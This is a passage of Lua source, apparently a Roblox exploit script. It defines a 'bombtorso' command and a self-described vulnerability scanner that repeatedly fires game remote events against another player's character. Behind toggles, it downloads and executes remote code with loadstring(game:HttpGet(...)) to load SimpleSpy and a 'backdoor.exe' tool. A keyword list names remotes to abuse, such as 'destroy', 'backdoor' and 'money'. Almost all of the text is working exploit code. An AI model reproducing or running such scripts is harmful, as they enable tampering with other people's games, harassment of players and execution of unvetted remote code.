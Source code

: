 	if load_DestroyToolTest == true then
		for i = 0, 100, 1 do
			for i,v in pairs(PossibleRemotes) do
				v:FireServer(game:GetService("Players")[Player.Value].Character.Head)
			end
		end
	end
end)

CreateCMD("bombtorso",function()
	--[[
	    Simple vulnerability scanner v1.1
	    Made by 0fiiz#7952
	]]--


	local load_BackdoorEXE = false
	local load_SimplySpy = false
	local load_DestroyToolTest = true

	if load_SimplySpy == true then
		loadstring(game:HttpGet("https://raw.githubusercontent.com/exxtremestuffs/SimpleSpySource/master/SimpleSpy.lua%22"))()
	end

	if load_BackdoorEXE == true then
		loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/v8/src/main.lua%22"))()
	end

	local PingWords = {
		"destroy",
		"delete",
		"del",
		"place",
		"remove",
		"replicate",
		"loadstring",
		"rev",
		"admin",
		"create",
		"property",
		"spawn",
		"clear",
		"trash",
		"fire",
		"bomb",
		"explode",
		"color",
		"update",
		"car",
		"money",
		"cheat",
		"data",
		"save",
		"build",
		"backdoor",
		"invis",
		"hide",
		"set"
	}
